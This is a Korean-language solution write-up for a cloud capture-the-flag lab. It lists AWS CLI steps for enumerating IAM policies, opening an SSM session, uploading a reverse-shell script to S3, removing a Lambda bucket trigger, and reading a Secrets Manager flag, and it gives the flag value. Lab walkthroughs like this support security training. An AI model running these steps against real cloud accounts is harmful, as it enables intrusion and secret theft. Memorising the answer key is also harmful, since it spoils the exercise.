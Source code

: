 # [cloud_secret_exfil] 모범 답안

## Easy Route
1. 최초 제공된 2개의 자격 증명 중에서 easy route의 자격 증명을 이용하여 프로파일을 등록한다.
```bash
aws configure --profile easyroute
```

2. 먼저 사용자에 대한 정보를 확인한다.
```bash
aws sts get-caller-identity --profile easyroute
```

3. 해당 사용자의 인라인 정책을 확인한다.
```bash
aws iam list-user-policies --user-name attacker-user-2 --profile easyroute
```

4. 해당 인라인 정책의 권한을 확인하여 ssm관련 권한이 있는 것을 확인한다.
```bash
aws iam get-user-policy --user-name attacker-user-2 --policy-name attacker-user-policy-2 --profile easyroute
```

5. ssm 세션을 시작하기 위해 session-manager plugin을 설치한다.
```bash
curl -o session-manager-plugin.deb https://s3.amazonaws.com/session-manager-downloads/plugin/latest/ubuntu_64bit/session-manager-plugin.deb

sudo dpkg -i session-manager-plugin.deb

session-manager-plugin
```

6. 접속할 인스턴스의 id를 확인한다.
```bash
aws ec2 describe-instances --query "Reservations[].Instances[].InstanceId" --output text --profile easyroute
```


7. ssm 세션을 시작하여 ec2내로 접속을 한다.
```bash
aws ssm start-session --target <ec2id> --profile easyroute
```


8. SecretsManager의 비밀 목록을 확인한다.
```bash
aws secretsmanager list-secrets
```

9. Secret을 확인하여 비밀 FLAG를 획득한다.
```bash
aws secretsmanager get-secret-value --secret-id secretFLAG-OrcAHYV87Uuzb1KB
```
<br/><br/>
## Hard Route
1. 최초 제공된 2개의 자격 증명 중에서 easy route의 자격 증명을 이용하여 프로파일을 등록한다.
```bash
aws configure --profile hardroute
```

2. 먼저 사용자에 대한 정보를 확인한다.
```bash
aws sts get-caller-identity --profile hardroute
```

3. 해당 사용자의 인라인 정책을 확인한다.
```bash
aws iam list-user-policies --user-name attacker-user-1 --profile hardroute
```

4. 해당 인라인 정책의 권한을 확인하여 lambda관련 권한 및 s3 업로드 권한 있는 것을 확인한다.
```bash
aws iam get-user-policy --user-name attacker-user-1 --policy-name attacker-user-policy-1 --profile hardroute 
```

5. 리버스 쉘 스크립트를 작성한다.
```bash
sudo vi exec.sh
```

6. 해당 파일을 s3내에 업로드한다.
```bash
aws s3 cp exec.sh s3://kcloudlab-cloud-secret-exfil-s3bucket/exec.sh --profile hardroute
```
- 이때 성공적으로 실행되지 않아 아무 사건이 발생하지 않는다.

7. Lambda 함수 트리거중에 S3 버킷 트리거가 있는지를 확인한다.
```bash
aws s3api get-bucket-notification-configuration --bucket kcloudlab-cloud-secret-exfil-s3bucket --profile hardroute
```

8. S3 버킷에 연결된 lambda 트리거를 삭제하기 위해 먼저 설정을 백업한다.
```bash
aws s3api get-bucket-notification-configuration --bucket kcloudlab-cloud-secret-exfil-s3bucket > a.json --profile hardroute
```

9. 백업한 설정에서 LambdaFunctionConfigureations 부분을 삭제한다.
```bash
sudo vi a.json
```

10. 수정한 설정 파일을 다시 덮어써서 설정을 변경한다.
```bash
aws s3api put-bucket-notification-configuration --bucket kcloudlab-cloud-secret-exfil-s3bucket --notification-configuration file://a.json  --profile hardroute
```

11. 다시 한 번 리버스 쉘을  s3내에 업로드하면 된다. 그러면 EC2에 접속할 수 있다.
``bash
aws s3 cp exec.sh s3://kcloudlab-cloud-secret-exfil-s3bucket/exec.sh --profile hardroute
```

12. SecretsManager의 비밀 목록을 확인한다.
```bash
aws secretsmanager list-secrets
```

13. Secret을 확인하여 비밀 FLAG를 획득한다.
```bash
aws secretsmanager get-secret-value --secret-id secretFLAG-OrcAHYV87Uuzb1KB
```



`flag` : FLAG{C10ud_s3cr3t_exfi1trati0n}
